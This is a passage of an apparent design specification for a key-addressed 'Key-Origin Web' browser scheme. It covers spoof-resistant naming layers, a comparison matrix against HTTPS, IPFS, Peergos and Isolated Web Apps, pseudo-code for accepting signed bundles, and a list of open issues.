The **key is the only authority.** Human-meaningful names are layered on top of it. They are either local, or resolved and then verified (§1.7):

| Layer | Source | Display rule | Can be spoofed by the app? |
|---|---|---|---|
| **Petname** | The user | Primary label in identity UI and tab strip | No |
| **Rail name** (§1.7) | K_pub-signed App Record, found via `at` / `dht` / `nostr` / `local` | `cool-site · lukeinth.at` plus rail, pin, and agreement badges. "by …" only when the publisher claim is bidirectional. | No (needs K_pub's signature, and the K_app claim for "by") |
| **Edge name / attestation** | A contact's signed suggestion or vouch ("Bob calls this *Bob's Notes*") | "Bob calls this: …". Vouches are counted **only** from the user's trust graph. | No (needs Bob's key) |
| **Self-claimed name** | Key-Web Manifest `name` | Always marked *self-claimed*. Never shown without the ID fingerprint unless a petname or a verified rail name exists. | Yes, by design. It is labelled. |
| **DNS hint** (legacy) | `_key-web.<domain>` TXT `v=kw1; id=<id>` **or** `https://<domain>/.well-known/key-web` JSON | "Claimed by notes.example.org ✓" **only if bidirectional**, meaning the manifest `claims` lists the domain too | No (needs both sides) |
| **ENS hint** (legacy) | Text record `key-web=<id>` | As for DNS | No (needs both sides) |

**Rules.**

1. Names and hints **never** change the origin. If a domain, handle, relay, or DHT record lapses or is hijacked, the name stops resolving (or fails closed, §1.7.8), and the app, its data, and its grants are untouched.
2. Every hint is re-validated on display and cached for at most 24 h.
3. The identity UI **MUST** show:
   - a visual hash (identicon) of the **full** ID,
   - the first 8 and last 4 characters of the ID,
   - the "first seen" date and the source of first contact.
   Prefix-matching vanity keys are cheap. Matching 8 base32 characters costs about 2⁴⁰ key generations.
4. With a verified rail name, the omnibox shows `[identicon] cool-site · lukeinth.at [AT][pinned]`. With neither a petname nor a rail name, it shows `[identicon] <self-claimed name> (unverified) · mix2p32o…aaic`.
5. Petnames are compared under Unicode confusable skeletons (UTS #39). Assigning a petname that collides with an existing one prompts the user.

---

## 5. Comparison Matrix

| Property | Traditional HTTPS/DNS | WICG WebPackage subresource bundles | Peergos custom apps | IPFS/IPNS via gateways | Privileged IWA (`isolated-app://`) | **Key-Origin Web (`key-web://`)** |
|---|---|---|---|---|---|---|
| **Origin identity root** | Domain name (registrar) + CA certificate | The embedding page's `https` origin. Bundles have no origin of their own. | The Peergos server's app domain (per-app sandbox domain) | The gateway's origin (path- or subdomain-based) | Ed25519/P-256 key (`SignedWebBundleId`) | Ed25519/P-256 key **or** KEL inception digest |
| **Who can kill it for everyone** | Registrar, DNS, CA, host, developer | Same as HTTPS (the page server) | The Peergos server operator (for that server's users) | The gateway operator. IPNS records expire if not republished. | The vendor's key-distribution blocklist; the install channel | No single party. The UA vendor (blocklist) is visible and overridable. |
| **Code mutability per visit** | Arbitrary, can be per-user | The page decides which bundle to load | Files are owner-signed; updates by the owner | Immutable CID / mutable IPNS | Signed updates only | Signed, **monotonic** updates only |
| **Integrity** | TLS (transport only) | None. Unsigned subresource bundles; SRI possible on the page. | Owner-signed, encrypted storage | CID hash (content), IPNS signature (pointer) | Integrity Block v2 over the whole bundle | Integrity Block v2 + KEL + `(kelSn, seq)` ordering |
| **Transport** | HTTPS only | HTTPS | Peergos protocol (server-assisted; P2P between servers) | IPFS / HTTP gateway | Any (file, HTTPS, policy) | Any (§3.4), multi-source chunked |
| **Offline** | Only via a Service Worker the server controls | Same as the page | Partial (needs the server, which can be localhost) | Gateway-dependent; native node can work offline | Yes | **Yes, by default** |
| **Default network egress** | Unrestricted | Unrestricted (the page) | **Blocked by CSP** (no external requests) | Unrestricted | `connect-src https: wss:`, `img-src https:` | **None** (CSP + Connection-Allowlist + Navigation Gate) |
| **Install ceremony to run** | None | None | Install inside Peergos (permissions shown) | None | **Required** (policy, dev mode, or install) | **None** (Tier 0) |
| **Click-a-link to open** | Yes | Yes (as part of a page) | Within a Peergos session | Yes (through a gateway URL) | No | **Yes** (`key-web://`, `#:~:kw=` hints) |
| **Storage isolation** | Per site (eTLD+1) partitioning | The page's | Per-app domain + Peergos data model | **Weak on path-based gateways** (shared origin) | Per-app StoragePartition | Per-key StoragePartition + quotas |
| **Key rotation** | Certificate renewal; the domain is the identity | n/a | Peergos account keys | IPNS key = name. No rotation without a name change. | **Centralized**: vendor-distributed rotation data | **Self-certifying** KEL: pre-rotation + guardians + witnesses |
| **Human-readable names** | DNS (authoritative) | DNS | Peergos usernames | DNSLink (DNS-authoritative) | None (app name only) | Petnames + edge names + **rail names** (`cool-site.lukeinth.at`, `.dht`, `.nostr`, `.local`) that resolve to a key but never own the origin |
| **Shareable link a human can read** | `https://notes.example.com` | Same as the page | Peergos share links (server-scoped) | `https://<gateway>/ipns/<name>` | `isolated-app://<56 chars>/` (unreadable) | `key-web://cool-site.lukeinth.at/#:~:pin=…`, plus an optional `https` share-card gateway |
| **Name hijack outcome** | The hijacker owns the origin **and** the users' data | Same | Server operator controls it | The gateway's origin is shared; IPNS key theft = full takeover | n/a | **Fail closed.** The hijacker can't reach K_app's origin or data, and the other rails keep working. |
| **Privileged APIs** | Permission prompts | Page's | None (sandboxed; data access through declared permissions) | Page's | Direct Sockets, Controlled Frame, … | **None.** Tier 1 scoped capabilities only. |
| **Capability model** | Origin-wide permissions | n/a | Manifest-declared permissions (`peergos-app.json`) | n/a | Manifest permissions policy (install time) | Signed declarations + UA-minted `xe-cap v1` grants (attenuable, revocable, metered) |
| **Status in Chromium 160** | Shipping | `<script type="webbundle">` code path present in Blink | Runs on stock browsers (server-assisted sandbox) | Gateways work on stock browsers | Shipping on desktop, gated by policy or flags | Layer A: SuperFrame IWA (+ flags). Layer B: patch series KW1–KW6. |
| **Main weakness** | Kill switches; mutable code; open egress | No independent identity or integrity | Depends on a Peergos server; app identity is server-scoped | Gateway origin collapse; open egress | Privilege makes drive-by unsafe; centralized rotation | Needs UA support; residual local covert channels; naming UX is harder |

**Reading the matrix.**

- **Peergos** already demonstrates the exfiltration-proof sandbox idea: CSP that blocks external requests, plus manifest-declared permissions. Its app identity, however, is scoped to a Peergos server.
- **IWAs** demonstrate key origins and signed bundles. They pair them with high privilege and centralized rotation.
- **The Key-Origin Web combines the two:** Peergos-style sealed sandboxing, applied to IWA-style key origins, with self-certifying key management, and native click-to-open.

---

## Appendix A: Consolidated acceptance algorithm (pseudo-code)

```text
function accept(swbn, origin_id, now):
  ib   = parse_integrity_block_v2(swbn)                 # ≤ 1 MiB, first sig known type
  require ib.attributes.webBundleId == origin_id
  kw   = require ib.attributes.keyWeb                   # author intent
  h    = sha512(unsigned_bundle(swbn))
  sigs = verify_all_signatures(ib, h)                   # M160 payload format
  match type(origin_id):
    K-ED | K-P256:
      require any(derive_id(s.pubkey) == origin_id for s in sigs)
      state = { kelSn: 0 }
    K-SAID:
      kel   = merge(trust_store[origin_id].kel, kw.kel) or FREEZE(duplicity)
      state = evaluate_kel(kel, now)                    # §4.5
      require count_distinct(sigs ∩ state.k) ≥ state.kt
  cand = (state.kelSn, kw.seq)
  hwm  = trust_store[origin_id].hwm
  if hwm is None or cand > (hwm.kelSn, hwm.seq): commit(origin_id, cand, h)
  elif cand == (hwm.kelSn, hwm.seq) and h == hwm.bundleHash: ok
  elif cand == (hwm.kelSn, hwm.seq): FREEZE(equivocation)
  else: REJECT(rollback)
```

## Appendix B: Open issues

1. **K-SAID suffix `00 03 02`.** Coordinate it with the WICG Isolated Web Apps scheme explainer so it never collides with a future upstream type.
2. **Connection-Allowlist stability.** The M160 implementation is labelled a prototype. Track the WICG `connection-allowlists` work, and keep conformance tests as the contract.
3. **Live grant application.** Grants currently take effect on reload. A live path that widens the network restrictions of a running document needs engine work (Blueprint KW5).
4. **Federated petname sharing format.** The edge-name suggestion record is unspecified here.
5. **WebAuthn PRF as a Tier 1c "local secret" capability**, for encrypting local data at rest without any network ceremony.
6. **Rail registry.** The NSIDs for the `at` rail (placeholder `org.example.keyweb.*`) and the Nostr addressable-event kind need real assignments. The reserved rail labels `dht`, `nostr`, `local`, and `key` should be registered as special-use names if `key-web` is standardized.
7. **Short DHT and Nostr aliases for first-time users.** Today they need prior state, a pin, or a self-certifying label (§1.7.7). A signed "alias introduction" carried in share cards is a candidate.
8. **Gateway preview content.** Previews show the App Record's self-claimed name to people who have never verified anything. The card must state that it is unverified.
